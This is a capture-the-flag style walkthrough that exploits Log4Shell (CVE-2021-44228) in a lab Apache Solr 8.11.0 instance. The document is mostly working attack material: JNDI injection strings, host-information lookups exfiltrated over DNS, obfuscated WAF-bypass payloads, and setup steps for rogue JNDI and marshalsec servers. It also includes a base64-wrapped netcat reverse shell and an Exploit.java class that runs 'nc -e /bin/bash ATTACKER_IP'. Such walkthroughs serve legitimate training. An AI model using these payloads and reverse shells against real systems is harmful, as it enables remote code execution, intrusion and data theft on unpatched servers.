

# Solar (log4shell tutorial)

## nmap

```
Nmap scan report for 10.10.186.220
Host is up, received user-set (0.15s latency).
Scanned at 2021-12-29 15:41:51 EST for 14s

PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTRQx4ZmXMByEs6dg4VTz+UtM9X9Ljxt6SU3oceqRUlV+ohx56xdD0ZPbvD0IcYwUrrqcruMG0xxgRxWuzV+FQAJVQe76ED966+lwrwAnUsVFQ5apw3N+WKnD53eldUZRq7/2nGQQizrefY7UjAGX/EZonSVOWZyhVyONu2VBBwg0B0yA3UBZV+yg+jGsrZ9ETEmfNbQRkbodEAwoZrGQ87UEdTkfj+5TGmfzqgukmBvvVV7KoXgSQIZNkqRmkAVKKXeEfydnOR37KMglBUXIR/50jkIswxWbNk2OtS6fz6UiPeEY39f4f0gwLx/HwUyel9yzH4dkDb+LBS6X/X9b9
|   256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAqCgW5Mlx2VpC61acc0G4VMZUAauQDoK5xIzdHzdDLPXt0GqsoIw1fuwTSSzSy8RFmGU5PNHiWn0egoUwlXdc4=
|   256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFZ/jrfDX1aK1I0A/sLRVb2qoCF9xHWbVW+gBCV8dSmg
111/tcp open  rpcbind syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8983/tcp open  http    syn-ack ttl 61 Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.186.220:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running [Apache Solr](https://solr.apache.org/) (version 8.11.0), which is vulnerable to log4shell.



## exploit

Looking at provided "solr.log" file, we see connection to `/admin/cores` URL endpoint is logged, and it includes the URL query params in the log. This is our exploit vector where we can supply attacker-controlled data. In other applications it could be in the `User-Agent` HTTP Header, the username of a login form, etc. In general, we must supply a string in the form:

```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```

First prove that exploit is possible.

```sh
# start netcat listener to catch connection from victim
nc -lvnp 9999

# send malicious GET request with payload in query params
curl 'http://10.10.203.74:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.38.182:9999\}'

# At this point the netcat listener should show "Ncat: Connection from <VICTIM_IP>."
# It also shows garbage bytes because this is an LDAP request, not HTTP
```

Note, due to the use of the `$` (dollar-sign character) in the request syntax, you must ensure you wrap the URL within single-quotes so bash does not interpret it as a variable. Additionally, you must escape out the `{ }` (curly braces) with a single backslash character, so those are not misrepresented in the curl command arguments.

If using `httpie` instead of `curl`, you can omit the backslashes escaping the curly braces (it automatically URL-encodes them, which still works):

```sh
pip install httpie
http 'http://10.10.203.74:8983/solr/admin/cores?foo=${jndi:ldap://10.6.38.182:9999}'
```

Before exploiting, other useful commands might be injected to gather information about the victim:

```java
${sys:os.name}  // OS name
${java:os}  // OS name
${sys:os.version}  // OS version
${sys:os.arch}  // CPU architecture
${sys:user.name}  // username
${env:USERNAME}  // username (windows)
${env:user}  // username (unix)
${sys:user.home}  // user's home dir
${sys:user.dir}  // current working directory
${sys:file.separator}  // path separator ("/" on unix, "\" on windows)
${sys:java.version}  // java version in use
${sys:java.home}  // java installation directory
${sys:java.io.tmpdir}  // default java tempfile path
${web:rootDir}  // if vulnerable app is web app, can see where web root files are
${log4j:configParentLocation}  // directory containing app config
${env:path}  // user's PATH env variable
${env:hostname}  // hostname
${hostName}  // hostname
```

To inject these commands and get the output, set up a random temporary subdomain on [http://dnslog.cn/](http://dnslog.cn/). This service lets you see logged subdomain DNS queries. Then inject the commands as a subdomain to the one they provide you and check the logs. For example, your exploit payload would look like:

```
${jndi:ldap://${sys:os.name}-${sys:os.version}-${sys:os.arch}.yoursubdomain.dnslog.cn}
```

Other great resources/info, including WAF bypasses found [here](https://infosecwriteups.com/log4shell-simplified-all-you-need-to-know-about-cve-2021-44228-3c70d59c307a). Examples:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

Note the `rmi` protocol used in the last one. That can also be used instead of LDAP with the `marshalsec` tool illustrated later.

Now stand up a rogue JNDI server (reference: [here](https://www.sprocketsecurity.com/blog/how-to-exploit-log4j-vulnerabilities-in-vmware-vcenter)):

```sh
# install prerequisites
sudo apt install -y java-common maven

# download source
cd /opt
git clone https://github.com/veracode-research/rogue-jndi

# build the tool
cd /opt/rogue-jndi
mvn package

# craft exploit string as base64
EXPLOIT=$(echo "nc -e /bin/bash ATTACKER_IP 9999" | base64)

# start the rogue JNDI server
java -jar target/RogueJndi-1.1.jar \
    --command "bash -c {echo,${EXPLOIT}}|{base64,-d}|{bash,-i}" \
    --hostname "ATTACKER_IP"
```

Then send your payload to the victim:

```
curl 'http://10.10.99.61:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.38.182:1389/o=reference\}'
```

Note: To get the exploit to work, you may have to try some of the other options exported by the rogue-jndi server (e.g. tomcat, groovy, etc.)

----

Alternative JNDI exploiter [here](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip)

```sh
# extract JNDIExploiter
unzip JNDIExploit.v1.2.zip
# run exploit server
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ATTACKER_IP -p 8888
# starts LDAP listener on 1389 and web server on port provided (8888)

# trigger exploit
# will execute 'touch /tmp/pwned'
curl http://VICTIM -H 'X-Api-Version: ${jndi:ldap://ATTACKER_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

Note: didn't actually try this one. Got instructions from [here](https://github.com/christophetd/log4shell-vulnerable-app).

----

More complex exploit using JNDI referral server with manual payload:

```sh
# get source
cd /opt
git clone https://github.com/mbechler/marshalsec

# build tool (note: requires Java 8 JDK and maven installed)
sudo apt install -y default-jdk default-jre maven
mvn clean package -DskipTests

# start the JNDI server
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8000/#Exploit"

# start a web server on port 8000
python3 -m http.server
# -or-
php -S 0.0.0.0:8000
# -or- (on systems with busybox installed)
busybox httpd
```

Then make a file called `Exploit.java`:

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACKER_IP 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Then compile the exploit (will create an `Exploit.class` file):

```sh
javac Exploit.java -source 8 -target 8  # this way worked on my kali box
# if you only have Java 8 JDK installed, you can omit the "-source 8 -target 8" args
```

Finally, trigger the exploit:

```sh
curl 'http://VICTIM_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}'
```

Couldn't get this one working originally, but was running Java 11 by default and compiling without the `-source 8 -target 8` flags, so that was the issue. Adding the flags got the exploit working.